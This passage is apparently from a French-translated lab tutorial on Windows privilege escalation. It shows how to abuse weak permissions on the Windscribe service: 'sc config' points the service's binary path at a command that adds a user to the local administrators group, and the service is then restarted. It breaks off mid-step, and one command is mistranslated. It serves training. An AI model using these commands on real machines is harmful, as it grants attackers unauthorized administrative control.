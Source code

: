 Administrateurs de noms d'alias
Commentaire Les administrateurs ont un accès complet et illimité à l'ordinateur/au domaine

Membres

-------------------------------------------------- -----------------------------
Administrateur
mrb3n
La commande s'est terminée avec succès.

```

#### Modification du chemin binaire du service

Nous pouvons utiliser nos autorisations pour modifier le chemin binaire de manière malveillante. Modifions-le pour ajouter notre utilisateur au groupe d'administrateurs locaux. Nous pourrions définir le chemin binaire pour exécuter n'importe quelle commande ou exécutable de notre choix (comme un binaire shell inversé).

Modification du chemin binaire du service

```
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] RÉUSSITE de ChangeServiceConfig

```

#### Arrêt du service

Ensuite, nous devons arrêter le service, afin que la nouvelle commande `binpath` s'exécute au prochain démarrage.

Arrêt du service

```
C:\htb> sc stop WindscribeService

SERVICE_NAME : service Windscribe
         TYPE : 10 WIN32_OWN_PROCESS
         ÉTAT : 3 STOP_PENDING
                                 (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
         WIN32_EXIT_CODE : 0 (0x0)
         SERVICE_EXIT_CODE : 0 (0x0)
         POINT DE CONTRÔLE : 0x4
         WAIT_HINT : 0x0

```

#### Démarrage du service

Puisque nous avons un contrôle total sur le service, nous pouvons le redémarrer, et la commande que nous avons placée dans `binpath` s'exécutera même si un message d'erreur est renvoyé. Le service ne démarre pas car le `binpath` ne pointe pas vers l'exécutable du service réel. Néanmoins, l'exécutable s'exécutera lorsque le système tentera de démarrer le service avant de se tromper et d'arrêter à nouveau le service, en exécutant la commande que nous spécifions dans le `binpath`.

Démarrage du service

```
C:\htb> sc démarrer WindscribeService
